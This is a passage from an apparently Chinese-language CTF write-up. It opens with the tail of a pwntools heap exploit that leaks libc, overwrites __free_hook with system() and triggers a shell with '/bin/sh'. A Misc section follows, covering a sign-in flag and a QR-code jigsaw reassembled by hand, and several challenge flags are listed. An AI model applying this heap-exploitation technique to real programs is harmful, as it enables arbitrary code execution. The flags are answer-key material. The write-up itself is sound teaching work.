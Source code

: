 ```python=
    free(2)
show()
r.recvuntil('Name: ')
leak=u64(r.recv(6).ljust(8,'\x00'))
print hex(leak)
libc_base=leak-96-0x10-libc.symbols['__malloc_hook']
one_gadget=libc_base+gadget
print hex(libc_base)
print hex(one_gadget)
sys=libc_base+libc.symbols['system']
free_hook=libc_base+libc.symbols['__free_hook']
print hex(sys)
print hex(free_hook)

add(0,0x180,0x120,'a'*0xe0+p64(0)+p64(0x100)+p64(free_hook-64))
add(0,0,0xf0,'a')
add(0,0,0x128,'b'*0xb0+p64(0x210)+p64(0x120)+'/bin/sh')
add(0,0,0xf0,'\x00'*32+p64(sys))
free(2)

r.interactive()
#gd()
#ctf{658ef1d12ba8e5f70bde452701b41efa}
```

## Misc
### 签到题
`flag{029d1a12f531b598a93fba0d2cae138d}`

### ewm
给了几十张二维码拼图，看到后缀，发现有大小之分。
先提取出所有大的，去掉十几张纯黑的，剩下25张。
手拼二维码！没有PS，用的word文档，将图片拖进来，图片格式改为四周型。

先定位三个角落：

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/VVha6Tn.png)

再补齐三个角落旁边的区块：

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/Id6LnrK.png)

然后找到右下角的校正图形区块，并补齐周边：

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/pFWJCfv.png)

最后就是逐一还原了：

![](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/fQ5WlZf.png)

扫码得`flag{g00d_g00d_study_1jf8988}`
